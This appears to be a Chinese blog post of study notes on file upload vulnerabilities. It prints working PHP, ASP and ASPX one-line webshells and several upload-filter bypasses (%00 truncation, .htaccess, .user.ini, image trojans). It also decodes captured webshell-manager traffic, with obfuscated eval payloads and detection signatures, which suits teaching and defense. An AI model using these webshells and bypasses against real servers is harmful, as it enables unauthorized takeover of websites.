title: 文件上传漏洞&对webshell管理工具流量分析
author: John Doe
tags: []
categories: []
date: 2023-07-06 13:39:00
---
<li>文件上传漏洞是指用户上传了一个可执行的脚本文件（php、jsp、xml、cer等文件），而WEB系统没有进行检测或逻辑做的不够安全。
<li>文件上传功能本身没有问题，问题在于上传后如何处理及解释文件。
<li>一般情况下，Web应用都会允许用户上传一些文件，如头像、附件等信息，如果Web应用没有对用户上传的文件进行有效的检查过滤，那么恶意用户就会上传一句话木马等Webshell，从而达到控制Web网站的目的。
<li>存在文件上传功能的地方都有可能存在文件上传漏洞，比如相册、头像上传，视频、照片分享。论坛发帖和邮箱等可以上传附件的地方也是上传漏阔的高危地带，另外像文件管理器这样的功能也有可能被攻击者所利用。
<li>这里上传的文件可以是木马，病毒，恶意脚本或者WebShell等。

# 一句话木马

php的一句话木马：
<?php @eval($_POST['shell']);?>
<?php eval($_POST[shell]) ?>

asp的一句话是：
<%eval request ("pass")%>

aspx的一句话是：
<%@ Page Language="Jscript"%> <%eval(Request.Item["pass"],"unsafe");%>


我们可以直接将这些语句插入到网站上的某个asp/aspx/php文件上，或者直接创建一个新的文件，在里面写入这些语句，然后把文件上传到网站上即可。

# 连接木马

## 1.直接连接



## 2.使用webshell管理工具

# 前端校验绕过



## way1:禁用JavaScript

成功上传
## way2:使用burpsuite抓包改包

先上传一个.png文件，抓包将.png改为.php

成功上传

# 绕过服务端：

## 黑名单扩展名绕过
使用burp爆破后缀名，看有没有未过滤的危险后缀名，

## 大小写绕过

如果禁止php文件上传，把文件名改成pHp,PhP,pHP等绕过

## 黑名单特殊后缀名绕过（利用难度高）
<li>前提条件是 http.conf 中设置 AddType application/x-httpd-php .php1(php 的版本小于等于 5.3.29 以下)

".php",".php5",".php4",".php3",".php2",".html",".htm",".phtml",".pht",".pHp",".pHp5",".pHp4",".pHp3",".pHp2",".Html",".Htm",".pHtml"

这些文件后缀名都可以尝试

## 单双重后缀名绕过
上传时将 Burpsuite 截的数据包中文件名 backlion.php（backlion.asa)改 为backlion.pphphp(backlion.asasaa)，那么过滤了第一个"php"字符串"后， 开头的’p’和结尾的’hp’就组合又形成了 php

## MIME-Type验证绕过

修改content-type为image/png

成功上传

<b>PS:</b>





## 路径栏%00截断绕过

php版本< 5.3

php.ini这个配置文件中 magic_quotes_gpc必须为 off

上传路径可控


选中shell.php文件并上传，在上传时使用burp抓包,如下


可控的路径，上传文件名

修改文件保存路径和文件名
<li>最初的保存路径是 ../upload/,文件名是 shell.php,所以经过拼接后 aa.php上传后的相对路径位置是 ../upload/shell.php
  
此时我们将文件报错路径修改为“../upload/shell.php%00”。%00是结束符的url编码格式

文件名修改为“shell.jpg”，如下

此时我们上传的文件最后的路径就会拼接成为---<code>../upload/shell.php%00shell.jpg</code>，因为过滤规则只对文件名生效，也就是filename参数对应的“shell.jpg”，目标允许jpg文件上传，所以绕过过滤自然是没有问题的

此时访问shell.php就能成功访问我们上传的php文件内容

## 数据栏00截断绕过
<li>上面的00截断是可控路径出现在路径栏，即save_path位置，而文件保存的位置是通过save_path参数的值+文件名，所以save_path中的参数会被作为url的一部分，因此save_path中使用00截断的截断符需要进行url编码，所以才会有%00出现

而还有一种情况就是如下


可以看到这里的路径也可控，但是并不是出现在路径栏，而是作为post传入的数据进行传输，所以这里也能使用00截断，但是不能使用%00（因为文件保存路径是作为数据传输），此时的00截断使用方式如下

1、在文件保存路径添加自己想传输的指定后缀文件和一个任意符号

例子：原来是“../upload”,我们想传入php文件，于是修改为“../upload/test.php;”，这里的";"就是我们随意添加的特殊符号

2、修改文件名的后缀为允许上传的后缀（即白名单中的内容）

3、例，我们上传的“a.php”可以修改为“a.jpg”，此时数据包如下

4、将我们添加的特殊符号(如上面的";")的16进制编码修改为00，如下


此时我们刚才随便放的一个符号就变成了结束符，就形成了00截断，此时直接发包即可绕过一些过滤

## 文件头欺骗

<li>不同的图片文件都有不同文件头，如： PNG：文件头标识 (8 bytes) 89 50 4E 47 0D 0A 1A 0A JPEG： 文件头标识 (2 bytes): 0xff, 0xd8 (SOI) (JPEG 文件标识) GIF：文件头标识 (6 bytes) 47 49 46 38 39(37) 61 上传文件的时候会检查上传文件是否合法，如图片文件是否文件头含有 gif89, 这里可以通过一句话图片木马生成工具 edjpgcom 戒者通过编辑器在木马内容基础上再加了一些文件信息，有点像下面的结构:

GIF89a <?php @eval($_POST['shell']);?>


## .htaccess绕过
<li>htaccess文件是Apache服务器中的一个配置文件，它负责相关目录下的网页配置。通过htaccess文件，可以帮我们实现：网页301重定向、自定义404错误页面、改变文件扩展名、允许/阻止特定的用户或者目录的访问、禁止目录列表、配置默认文档等功能。其中.htaccess文件内容：
<code>SetHandler application/x-httpd-php</code>
设置当前目录所有文件都使用PHP解析，那么无论上传任何文件，只要文件内容符合PHP语言代码规范，就会被当作PHP执行。不符合则报错。

<li>配置文件http.conf
在Apache中如果需要启动 .htaccess，必须在http.conf中设置 AllowOverride

制作并上传.htaccess文件

<FilesMatch "shell.png">  
SetHandler application/x-httpd-php
</FilesMatch>

将shell.php改为shell.png上传，服务器会将shell.png解析为shell.php

## .user.ini绕过（可以结合文件头欺骗）

auto_prepend_file=shell.txt

或者

auto_append_file=shell.txt

新建一个文件名为shell.txt的文件，并将内容写为：

<?php phpinfo();?>或者webshell


上传到服务器，再访问上传目录下的readme.php，即可将shell.txt内的内容脚本正常执行。

## 后缀名加.绕过
<li>这个点号绕过也是系统层面的原理，很空格过滤没什么区别，当你重命名文件名时，如果在 文件后缀名加上一个点，此时保存后系统会在自动过滤末尾的点号
  
使用方法同空格过滤一样，例如上传一个a.php文件，burp抓包将文件名改为“a.php.”，此时放包，如果黑名单检测中没有对“php.”过滤，就能实现绕过

## 空格绕过
<li>在系统层面上，当我保存了一个名为a.txt的文件时，当我在文件名 前面或者后面加上一个空格，在保存时在系统层面上是没有空格的，但是在PHP传输的过程中，是可以识别这个空格的，所以也就诞生我们的空格绕过方式

例： 如果目标的黑名单过滤中只有“.php”，而没有“.php ”这样的后缀时，就可以上传时使用burp抓包，在上传的文件名前面或者后面添加空格，再放包就能成功上传，实现绕过

## ::$data绕过
<li><b>条件：只适用于windows</b>
  
这里能绕过的原理是因为windows的NTFS文件系统的一个特性，windows都适用
  
也就是当我们访问a.php::$data时，也就是相当于访问a.php本身

当我们访问ab:a.php::$data时，也就是访问ab文件夹下的a.php文件本身

这个绕过方式的使用和前面两个一样，都是burp抓包改文件名就行了，例如把a.php改为a.php::$data,只要他没有做对应的过滤就能绕过黑名单检测

<b>注意：这种方法确实能绕过限制，但是当我们开新标签访问我们上传的文件时会报错，需要把此时url中的::$data删掉才能正常访问</b>

## 图片马检测绕过

<b>图片马</b>，简而言之就是包含了木马的图片文件，当目标程序允许jpg,png,gif文件上传时就可以尝试使用

条件：

需要解析漏洞
需要文件包含漏洞


### 1.copy

例如现在有一个a.php的一句话木马文件和一个a.jpg的正常文件，则图片马生成语句如下

copy 1.jpg/b+2.php/a 3.jpg

<li>/b是二进制形式打开
<li>/a是ascii方式打开
<li>尽量把图片放前面，木马放后面
此时就会在当前目录下生成一个xx.jpg,就是生成的木马图片文件，此时用记事本等应用打开xx.jpg就会看到a.php的内容（即一句话木马）已经被插入进去了

### 2.手动添加
这个就是直接以记事本打开a.jpg，在里面插入a.php的内容，再保存就可以了

### 使用方法

## 二次渲染绕过
很多网站中，会直接允许你上传jpg,png,gif等后缀的文件，但是会对文件的内容进行一个检测，查出其中的恶意内容，渲染，就是修改掉部分恶意内容

例如简单的图片马经过渲染就可以成为变为正常图片，这样就可以一定程度上避免客户上传的恶意文件造成效果

但这样处理恶意文件最大的问题就是恶意内容的查找，当某个木马图片文件被上传时经过渲染后，将渲染后的文件再上传时就不会查出恶意文件

这是我们制作的图片马

环境原因未复刻成功，给出CSDN链接


【web安全】——文件上传的绕过方式


# waf绕过

没有实际经历，后续补充


文件上传漏洞详解


{% blockquote CSDN https://blog.csdn.net/qq_50854790/article/details/124288502?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522168336909616800227463791%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=168336909616800227463791&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-124288502-null-null.142^v86^koosearch_v1,239^v2^insert_chatgpt&utm_term=%E6%96%87%E4%BB%B6%E4%B8%8A%E4%BC%A0waf%E7%BB%95%E8%BF%87&spm=1018.2226.3001.4187 Go to CSDN %}
文件上传——WAF的基础绕过



渗透干货之史上最全一句话木马


# 大马

{% blockquote CSDN https://blog.csdn.net/qq_53079406/article/details/125084768?ops_request_misc=%257B%2522request%255Fid%2522%253A%2522168336925416800180641790%2522%252C%2522scm%2522%253A%252220140713.130102334..%2522%257D&request_id=168336925416800180641790&biz_id=0&utm_medium=distribute.pc_search_result.none-task-blog-2~all~sobaiduend~default-1-125084768-null-null.142^v86^koosearch_v1,239^v2^insert_chatgpt&utm_term=%E5%A4%A7%E9%A9%AC%E5%A6%82%E4%BD%95%E4%BD%BF%E7%94%A8&spm=1018.2226.3001.4187 Go to CSDN %}
【PHP大马】定义、下载、使用、源码


附上连接截屏

# webshell管理工具

## 中国菜刀（2010版）

### 使用


### 流量分析



Key: shell
Value: @eval(base64_decode($_POST[z0]));

Key: z0
Value [truncated]: QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO2VjaG8oIi0+fCIpOzskbT1nZXRfbWFnaWNfcXVvdGVzX2dwYygpOyRoc3Q9JG0/c3RyaXBzbGFzaGVzKCRfUE9TVFsiejEiXSk6JF9QT1NUWyJ6MSJd

只经过简单的base64加密

@
ini_set("display_errors", "0");@
set_time_limit(0);@
set_magic_quotes_runtime(0);
echo("->|");;
$m = get_magic_quotes_gpc();
$hst = $m ? stripslashes($_POST["z1"]) : $_POST["z1"]


## 中国菜刀（过waf版）

### 使用


输入路径和连接密码，添加即可

菜刀的一些功能


这里应根据实际mysql账号密码填写

### 流量分析


Key: shell
Value [truncated]: array_map("ass"."ert",array("ev"."Al(\"\\\$xx=\\\"Ba"."SE6"."4_dEc"."OdE\\\";@ev"."al(\\\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JGhzdD0nbG9jYWxob3N0JzskdXNyPSdyb290JzskcHdkPSdyb290JzskZGJuPSd0ZXN0JzskdGJuPSd0ZXN0XzAnOyRUPW15c3FsaV9jb25uZWN0KCRoc3QsJHVzciwkcHdkLCRkYm4pO2lmKG15c3FsaV9jb25uZWN0X2Vycm5vKCRUKSl7ZWNobyAiRVJST1I6Ly8gIi5teXNxbGlfY29ubmVjdF9lcnJvcigpO31lbHNleyRxPW15c3FsaV9xdWVyeSgkVCwiU0hPVyBDT0xVTU5TIEZST00gYHskdGJufWAiKTtpZigkcSl7d2hpbGUoJHJzPW15c3FsaV9mZXRjaF9yb3coJHEpKXtlY2hvIHRyaW0oJHJzWzBdKS5jaHIoOSk7fX1teXNxbGlfY2xvc2UoJFQpO307ZWNobygiWEBZIik7ZGllKCk7'));\");"));

整理分析assert函数执行的php代码：

evAl("\$xx=\"BaSE64_dEcOdE\";@eval(\$xx('QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwiMCIpO0BzZXRfdGltZV9saW1pdCgwKTtpZihQSFBfVkVSU0lPTjwnNS4zLjAnKXtAc2V0X21hZ2ljX3F1b3Rlc19ydW50aW1lKDApO307ZWNobygiWEBZIik7JGhzdD0nbG9jYWxob3N0JzskdXNyPSdyb290JzskcHdkPSdyb290JzskZGJuPSd0ZXN0JzskdGJuPSd0ZXN0XzAnOyRUPW15c3FsaV9jb25uZWN0KCRoc3QsJHVzciwkcHdkLCRkYm4pO2lmKG15c3FsaV9jb25uZWN0X2Vycm5vKCRUKSl7ZWNobyAiRVJST1I6Ly8gIi5teXNxbGlfY29ubmVjdF9lcnJvcigpO31lbHNleyRxPW15c3FsaV9xdWVyeSgkVCwiU0hPVyBDT0xVTU5TIEZST00gYHskdGJufWAiKTtpZigkcSl7d2hpbGUoJHJzPW15c3FsaV9mZXRjaF9yb3coJHEpKXtlY2hvIHRyaW0oJHJzWzBdKS5jaHIoOSk7fX1teXNxbGlfY2xvc2UoJFQpO307ZWNobygiWEBZIik7ZGllKCk7'));");


解密并整理base64密文得到真正的核心php代码

@
ini_set("display_errors", "0");@
set_time_limit(0);
if (PHP_VERSION < '5.3.0') {@
    set_magic_quotes_runtime(0);
};
echo("X@Y");
$hst = 'localhost';
$usr = 'root';
$pwd = 'root';
$dbn = 'test';
$tbn = 'test_0';
$T = mysqli_connect($hst, $usr, $pwd, $dbn);
if (mysqli_connect_errno($T)) {
    echo "ERROR:// ".mysqli_connect_error();
} else {
    $q = mysqli_query($T, "SHOW COLUMNS FROM `{$tbn}`");
    if ($q) {
        while ($rs = mysqli_fetch_row($q)) {
            echo trim($rs[0]).chr(9);
        }
    }
    mysqli_close($T);
};
echo("X@Y");
die();

菜刀通过调用array_map函数，字符串拼接，大小写混合和base64加密的方式隐藏传输恶意代码。

## 中国蚁剑

### 使用


中国蚁剑 - AntSword


### 流量分析

#### default连接

流量特征较为明显

Form item: "shell" = "@ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sy
    Key: shell
    Value [truncated]: @ini_set("display_errors", "0");@set_time_limit(0);$opdir=@ini_get("open_basedir");if($opdir) {$ocwd=dirname($_SERVER["SCRIPT_FILENAME"]);$oparr=preg_split(base64_decode("Lzt8Oi8="),$opdir);@array_push($oparr,$ocwd,sys_

具体信息如下

@
ini_set("display_errors", "0");@
set_time_limit(0);
$opdir = @ini_get("open_basedir");
if ($opdir) {
    $ocwd = dirname($_SERVER["SCRIPT_FILENAME"]);
    $oparr = preg_split(base64_decode("Lzt8Oi8="), $opdir);@
    array_push($oparr, $ocwd, sys_get_temp_dir());
    foreach($oparr as $item) {
        if (!@is_writable($item)) {
            continue;
        };
        $tmdir = $item.
        "/.c8783d083";@
        mkdir($tmdir);
        if (!@file_exists($tmdir)) {
            continue;
        }
        $tmdir = realpath($tmdir);@
        chdir($tmdir);@
        ini_set("open_basedir", "..");
        $cntarr = @preg_split("/\\\\|\//", $tmdir);
        for ($i = 0; $i < sizeof($cntarr); $i++) {@
            chdir("..");
        };@
        ini_set("open_basedir", "/");@
        rmdir($tmdir);
        break;
    };
};;

function asenc($out) {
    return $out;
};

function asoutput() {
    $output = ob_get_contents();
    ob_end_clean();
    echo "f57a51".
    "671d79";
    echo@ asenc($output);
    echo "b2".
    "def";
}
ob_start();
try {
    $m = get_magic_quotes_gpc();
    $hst = base64_decode(substr($m ? stripslashes($_POST["oa4954c3b92dfd"]) : $_POST["oa4954c3b92dfd"], 2));
    $usr = base64_decode(substr($m ? stripslashes($_POST["paf643667b595d"]) : $_POST["paf643667b595d"], 2));
    $pwd = base64_decode(substr($m ? stripslashes($_POST["f77305c3787e13"]) : $_POST["f77305c3787e13"], 2));
    $dbn = base64_decode(substr($m ? stripslashes($_POST["v76d75758a528e"]) : $_POST["v76d75758a528e"], 2));
    $tab = base64_decode(substr($m ? stripslashes($_POST["ccec077dd4e962"]) : $_POST["ccec077dd4e962"], 2));
    $T = @mysql_connect($hst, $usr, $pwd);@
    mysql_select_db($dbn, $T);
    $q = @mysql_query("SHOW COLUMNS FROM `{$tab}`");
    while ($rs = @mysql_fetch_row($q)) {
        echo(trim($rs[0]).
            " (".$rs[1].
            ")".chr(9));
    }@
    mysql_close($T);;
} catch (Exception $e) {
    echo "ERROR://".$e - > getMessage();
};
asoutput();
die();

其流量特征比较清晰，ini_set()，set_time_limit（），当你看到这两个字段时，就要小心了。

#### base64连接



Form item: "s01dd473fe4a06" = "QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7JG9wZGlyPUBpbmlfZ2V0KCJvcGVuX2Jhc2VkaXIiKTtpZigkb3BkaXIpIHskb2N3ZD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7JG9wYXJyPXByZWdfc3BsaXQo
    Key: s01dd473fe4a06
    Value [truncated]: QGluaV9zZXQoImRpc3BsYXlfZXJyb3JzIiwgIjAiKTtAc2V0X3RpbWVfbGltaXQoMCk7JG9wZGlyPUBpbmlfZ2V0KCJvcGVuX2Jhc2VkaXIiKTtpZigkb3BkaXIpIHskb2N3ZD1kaXJuYW1lKCRfU0VSVkVSWyJTQ1JJUFRfRklMRU5BTUUiXSk7JG9wYXJyPXByZWdfc3BsaXQoYmFzZTY0X2R

Form item: "shell" = "@eval(@base64_decode($_POST['s01dd473fe4a06']));"
    Key: shell
    Value: @eval(@base64_decode($_POST['s01dd473fe4a06']));


解密后跟default连接一样

#### chr/chr16连接

特征也很明显，其返回包也是以明文传输的。

Form item: "shell" = "@eVAl(cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116).ChR(40).ChR(34).ChR(100).ChR(105).ChR(115).ChR(112).ChR(108).ChR(97).ChR(121).ChR(95).ChR(101).ChR(114).ChR(114).ChR(111).ChR(114).ChR(115).C
    Key: shell
    Value [truncated]: @eVAl(cHr(64).ChR(105).ChR(110).ChR(105).ChR(95).ChR(115).ChR(101).ChR(116).ChR(40).ChR(34).ChR(100).ChR(105).ChR(115).ChR(112).ChR(108).ChR(97).ChR(121).ChR(95).ChR(101).ChR(114).ChR(114).ChR(111).ChR(114).ChR(115).ChR


#### rot13连接


Form item: "shell" = "@eval(@str_rot13($_POST['ee2bf9d6bff4ae']));"
    Key: shell
    Value: @eval(@str_rot13($_POST['ee2bf9d6bff4ae']));


## 冰蝎v2.0

### 使用


一些功能

### 流量分析

第一阶段，返回包状态码为200，响应包返回内容必定是16位的密钥

请求体中：
<code>Accept: text/html, image/gif, image/jpeg, *; q=.2, /; q=.2</code>

建立连接后的cookie存在特征字符
所有请求 Cookie的格式都为:<code>Cookie: PHPSESSID=; path=/；</code>

## 冰蝎v3.0

### 使用


在文件目录下的/server文件夹里有冰蝎3.0对各种语言的webshell

上传后使用默认密码rebeyond连接，功能栏


反弹msfconsole，根据冰蝎的温馨提示输入即可



### 流量分析

<li>去除了动态密钥协商机制，采用预共享密钥，全程无明文交互，密钥格式为md5(“admin”)[0:16],即"admin"的md5值的前十六位字符。
所以在各种语言的webshell中都会存在16位数的连接密码，默认变量为key。


冰蝎3.0流量特征：
请求包中content-length 为5740或5720（可能会根据Java版本而改变）(这里用的修改版length存在差异)
每一个请求头中存在
Pragma: no-cache，Cache-Control: no-cache
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,image/apng,/*;q=0.8,application/signed-exchange;v=b3;q=0.9


## 冰蝎v3.3（魔改，可修改状态码）

### 使用

还是在/server目录下拿到webshell文件，上传连接，这个魔改版本可以自定义状态码


成功连接，功能有增加

### 流量分析


特征没有变化


经过实际测试，状态码可以修改

## 冰蝎v4.0

### 使用

<li>冰蝎 v4.0 版本不再有连接密码的概念，你的自定义传输协议的算法就是连接密码。按照冰蝎 3.0 版本当中的密码依旧是 “rebeyond”，但是冰蝎 v4.0 的马使用蚁剑，以 “rebeyond” 作为密码是连不上的


冰蝎4.0的webshell是动态生成的，有多种协议供选择

上传，连接，功能很多

### 流量分析
这里测试一下default_xor_base64，仍然存在冰蝎v3.0的Accept特征




实力不济，后续研究



冰蝎V4.0流量分析到攻防检测



冰蝎v4.0传输协议详解


## 哥斯拉v4.0

### 使用

<li>哥斯拉的webshell需要动态生成，可以根据需求选择各种不同的加密方式

先点击管理-生成




按照刚刚生成的连接，右键进入

成功

### 流量分析

payload特征：
jsp会出现xc,pass字符和Java反射（ClassLoader，getClass().getClassLoader()），base64加解码等特征
php，asp则为普通的一句话木马
“pass=”起始。




Form item: "pass" = "eval(base64_decode(strrev(urldecode('K0QfK0QfgACIgoQD9BCIgACIgACIK0wOpkXZrRCLhRXYkRCKlR2bj5WZ90VZtFmTkF2bslXYwRyWO9USTNVRT9FJgACIgACIgACIgACIK0wepU2csFmZ90TIpIybm5WSzNWazFmQ0V2ZiwSY0FGZkgycvBnc0NHKgYWagACIgACIgAiCNsXZz
    Key: pass
    Value [truncated]:     
eval(base64_decode(strrev(urldecode('K0QfK0QfgACIgoQD9BCIgACIgACIK0wOpkXZrRCLhRXYkRCKlR2bj5WZ90VZtFmTkF2bslXYwRyWO9USTNVRT9FJgACIgACIgACIgACIK0wepU2csFmZ90TIpIybm5WSzNWazFmQ0V2ZiwSY0FGZkgycvBnc0NHKgYWagACIgACIgAiCNsXZzxWZ9BCIgAiCNsTK2EDLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKpkXZrRCLpEGdhRGJo4WdyBEKlR2bj5WZoUGZvNmbl9FN2U2chJGIvh2YlBCIgACIgACIK0wOpYTMsADLpkXZrRiLzNXYwRCK1QWboIHdzJWdzByboNWZgACIgACIgAiCNsTKkF2bslXYwRCKsFmdllQCK0QfgACIgACIgAiCNsTK5V2akwCZh9Gb5FGckgSZk92YuVWPkF2bslXYwRCIgACIgACIgACIgAiCNsXKlNHbhZWP90TKi8mZul0cjl2chJEdldmIsQWYvxWehBHJoM3bwJHdzhCImlGIgACIgACIgoQD7kSeltGJs0VZtFmTkF2bslXYwRyWO9USTNVRT9FJoUGZvNmbl1DZh9Gb5FGckACIgACIgACIK0wepkSXl1WYORWYvxWehBHJb50TJN1UFN1XkgCdlN3cphCImlGIgACIK0wOpkXZrRCLp01czFGcksFVT9EUfRCKlR2bjVGZfRjNlNXYihSZk92YuVWPhRXYkRCIgACIK0wepkSXzNXYwRyWUN1TQ9FJoQXZzNXaoAiZppQD7cSY0IjM1EzY5EGOiBTZ2M2Mn0TeltGJK0wOnQWYvxWehB3J9UWbh5EZh9Gb5FGckoQD7cSelt2J9M3chBHJK0QfK0wOERCIuJXd0VmcgACIgoQD9BCIgAiCNszYk4VXpRyWERCI9ASXpRyWERCIgACIgACIgoQD70VNxYSMrkGJbtEJg0DIjRCIgACIgACIgoQD7BSKrsSaksTKERCKuVGbyR3c8kGJ7ATPpRCKy9mZgACIgoQD7lySkwCRkgSZk92YuVGIu9Wa0Nmb1ZmCNsTKwgyZulGdy9GclJ3Xy9mcyVGQK0wOpADK0lWbpx2Xl1Wa09FdlNHQK0wOpgCdyFGdz9lbvl2czV2cApQD'))));

很复杂的加密


哥斯拉流量分析：
作为参考：
所有请求中Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,/;q=0.8
所有响应中Cache-Control: no-store, no-cache, must-revalidate,
同时在所有请求中Cookie中后面都存在；特征


